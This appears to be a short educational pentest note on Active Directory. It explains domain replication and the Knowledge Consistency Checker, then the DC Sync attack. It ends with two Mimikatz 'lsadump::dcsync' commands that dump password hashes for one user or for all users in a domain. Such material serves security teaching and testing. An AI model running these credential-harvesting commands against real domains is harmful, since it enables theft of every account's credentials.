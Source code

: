 **DC Sync**<br>

In large organisations, they do not use a single DC per domain, this action may delay any authentication services in AD. So they use multiple DCs.  The question then becomes, how is it possible for you to authenticate using the same credentials in two different offices?.....<br>
The answer to that question is **domain replication**. Each domain controller runs a process called the Knowledge Consistency Checker (KCC). The KCC generates a replication topology for the AD forest and automatically connects to other domain controllers through Remote Procedure Calls (RPC) to synchronise information. This includes updated information such as the user's new password and new objects such as when a new user is created. This is why you usually have to wait a couple of minutes before you authenticate after you have changed your password since the DC where the password change occurred could perhaps not be the same one as the one where you are authenticating to.

The process of replication is called **DC Synchronisation**. It is not just the DCs that can initiate replication. Accounts such as those belonging to the Domain Admins groups can also do it for legitimate purposes such as creating a new domain controller. <br>
> To perform a DC Sync attack, the attacker needs to have access to an account that has domain replication permissions. This is typically a highly privileged account, such as a member of the Domain Admins or Enterprise Admins group, or any account with the "Replicating Directory Changes" permission.


**DCSync All**

We will be using Mimikatz to harvest credentials:
```
mimikatz # lsadump::dcsync /domain:<DomainName> /user:<Usernaem>@<DomainName>
```
If we want to retrieve information for all users in the domain. This will dump the password hashes for every user account in the domain:
```
mimikatz # lsadump::dcsync /domain:<DomainName> /all
```




















